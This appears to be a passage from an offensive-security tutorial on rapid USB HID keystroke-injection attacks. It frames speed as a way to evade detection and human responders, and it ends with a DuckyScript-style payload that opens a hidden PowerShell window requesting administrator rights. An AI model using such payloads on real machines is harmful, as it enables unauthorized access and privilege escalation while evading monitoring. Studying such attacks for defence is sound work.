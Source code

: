 ### Why Speed Matters in Cybersecurity

#### **1. Detection Evasion**
Security systems need time to detect and respond to threats. The faster you can execute your attack, the less time they have to catch you.

#### **2. Window of Opportunity**
Many security measures have response times measured in seconds or minutes. If you can complete your objective faster than that, you win.

#### **3. Human Response Time**
Even if automated systems don't catch you, humans need time to notice and respond to unusual activity.

#### **4. System State Changes**
Systems are constantly changing. The longer you take, the more likely something will change that breaks your attack.

### The Mathematics of Speed

Let's break down the timing:

```
Traditional Manual Attack:
- Reconnaissance: 5-10 minutes
- Tool preparation: 2-5 minutes
- Execution: 3-7 minutes
- Total: 10-22 minutes

Rapid HID Attack:
- Device insertion: 2 seconds
- Automated execution: 15-30 seconds
- Total: 17-32 seconds
```

That's a **20-40x speed improvement**. In cybersecurity terms, that's the difference between getting caught and getting away clean.

---

## The Rapid Access Arsenal

### Core Techniques

#### **1. Keystroke Injection**
The bread and butter of rapid access:

```txt
# Basic rapid access sequence
ATTACKMODE HID
DEFAULT_DELAY 50  # Minimal delays for speed
DELAY 1000        # Wait for system recognition

# Open PowerShell with admin privileges
MOD r
DELAY 100
STRING powershell -WindowStyle Hidden -Command "Start-Process powershell -Verb RunAs"
ENTER
DELAY 500
```
